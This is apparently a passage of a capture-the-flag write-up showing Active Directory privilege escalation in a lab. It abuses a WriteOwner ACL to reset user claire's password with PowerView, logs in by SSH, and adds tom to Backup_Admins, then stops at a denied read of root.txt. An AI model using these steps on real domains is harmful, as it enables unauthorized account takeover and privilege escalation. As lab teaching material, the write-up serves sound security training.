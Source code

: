 ```
ActiveDirectoryRights : WriteOwner                                                                                              
OpaqueLength          : 0                                                                                                       
ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1130                                                          
InheritanceFlags      : None                                                                                                    
BinaryLength          : 36                                                                                                      
IsInherited           : False                                                                                                   
IsCallback            : False                                                                                                   
PropagationFlags      : None                                                                                                    
SecurityIdentifier    : S-1-5-21-2648318136-3688571242-2924127574-1107                                                          
AccessMask            : 524288                                                                                                  
AuditFlags            : None                                                                                                    
AceFlags              : None                                                                                                    
AceQualifier          : AccessAllowed 


PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire

cmdlet Set-DomainUserPassword at command pipeline position 1                                                                    
AccountPassword: ***********
```

We can then log on as claire using SSH. And, with her privileges, add tom to the `Backup_Admins` group:
```
PS C:\Users\claire> Add-ADGroupMember -Identity Backup_Admins -Members tom
```

Then we must log out and log in again with tom to gain the new privileges. Once this is done we can read some of the Administratoruser folder but the root flag is still not accessible:
```
PS C:\Users\Administrator\Desktop> cat .\root.txt                                                            
cat : Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.                                
At line:1 char:1                                                                                             
+ cat .\root.txt                                                                                             
+ ~~~~~~~~~~~~~~                                                                                             
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Conte  
   nt], UnauthorizedAccessException                                                                          
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetCont  
   entCommand
```
